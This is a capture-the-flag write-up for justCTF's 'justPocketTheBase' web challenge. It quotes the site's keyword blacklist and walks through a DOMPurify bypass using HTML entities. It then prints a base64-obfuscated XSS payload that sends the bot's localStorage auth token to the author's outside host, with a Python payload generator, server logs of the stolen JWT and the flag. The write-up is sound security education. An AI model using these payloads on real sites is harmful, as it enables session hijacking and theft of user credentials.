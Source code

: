 # justPocketTheBase

## Description
```
The thing I love the most about ready-to-use backends and frameworks is that they are always secure :)

-http://justpocketthebase.web.jctf.pro
-https://s3.cdn.justctf.team/c5536ebc-945a-4fa7-af34-f064b29916d0/justpocketthebase_docker.tar.gz
```

## Writeup

Title character custom-blacklist: <br/>
```js
let blacklist = [
	'window',
	'document',
	'cookie',
	'fetch',
	'navigator',
	'sendbeacon',
	'+',
	'_',
	'script',
	'!',
	'"',
	'#',
	'%',
	"'",
	'(',
	')',
	'*',
	'+',
	',',
	'-',
	'/',
	':',
	'?',
	'@',
	'[',
	']',
	';'
];

const sanitizedTitle = DOMPurify.sanitize(plant.title);
const newTitleElement = document.createElement('div');
newTitleElement.classList.add('title');
newTitleElement.innerHTML = sanitizedTitle;
const safe = newTitleElement.innerText;
try {
        if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
		throw new Error('not safe!!!');
	}
	title.innerHTML = safe;
} catch (err) {
	window.location.href = '/';
}
```

The `dompurify` can be bypassed using [HTML-Entity-Characters](https://html.com/character-codes/) by simply encoding `<` and `>`. <br/>

XSS via title of a new plant by exchanging **()** with **``**: <br/>
```js
&lt;img src=1 onerror=alert`1`&gt;
```

Using [PortSwigger-Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#img-tag-with-base64-encoding) we are able to simply execute javascript and bypass the `custom-blacklist`. <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;
```

Making a script to enchance efficiency: <br/>
```py
import base64

payload = 'JAVASCRIPT-PAYLOAD'

print(f'&lt;img src=1 onerror=location=atob`{base64.b64encode(bytes(f"javascript:{payload}", "utf-8"))}`&gt;')
```

Leak localstorage which contains the JWT of the bot: <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;
/%7B%22token%22:%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjIwODIsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.LqdYoqEO8cDmOgertTUt5FsmP6jUfDM0Z-GEbEJwBkc%22,%22model%22:%7B%22avatar%22:%22%22,%22collectionId%22:%22_pb_users_auth_%22,%22collectionName%22:%22users%22,%22created%22:%222024-06-15%2010:52:23.378Z%22,%22email%22:%22%22,%22emailVisibility%22:false,%22id%22:%22ebm7wofy99nmb4b%22,%22name%22:%22%22,%22updated%22:%222024-06-15%2010:52:23.378Z%22,%22username%22:%22flag%22,%22verified%22:false%7D%7D
// fetch(`https://aryt3.dev/${localStorage.getItem("pocketbase_auth")}`)
```

Server Logs after reporting the webpage: <br/>
```
167.71.14.123 - - [15/Jun/2024:13:54:43 +0200] "GET /%7B%22token%22:%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjIwODIsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.LqdYoqEO8cDmOgertTUt5FsmP6jUfDM0Z-GEbEJwBkc%22,%22model%22:%7B%22avatar%22:%22%22,%22collectionId%22:%22_pb_users_auth_%22,%22collectionName%22:%22users%22,%22created%22:%222024-06-15%2010:52:23.378Z%22,%22email%22:%22%22,%22emailVisibility%22:false,%22id%22:%22ebm7wofy99nmb4b%22,%22name%22:%22%22,%22updated%22:%222024-06-15%2010:52:23.378Z%22,%22username%22:%22flag%22,%22verified%22:false%7D%7D HTTP/1.1" 502 559 "http://localhost/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.0.0 Safari/537.36"
```

URL-Decoded:
```json
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjI2OTcsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.hSvcypOCNSsIYeXJ-JZE4H7vWnt7UFvrzAoMBkxwVp0","model":{"avatar":"","collectionId":"_pb_users_auth_","collectionName":"users","created":"2024-06-15 10:52:23.378Z","email":"","emailVisibility":false,"id":"ebm7wofy99nmb4b","name":"","updated":"2024-06-15 10:52:23.378Z","username":"flag","verified":false}}
```

Having obtained the whole localstorage we can switch ours with this one. <br/>
After that we can access the post with the `flag-image`. <br/>
Now we can inspect the image in the `admin-post` which reveals the flag. <br/>
```sh
$ exiftool flag_gygEshYymV.png 
ExifTool Version Number         : 12.76
File Name                       : flag_gygEshYymV.png

---------------------------------------------------------

Artist                          : justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
```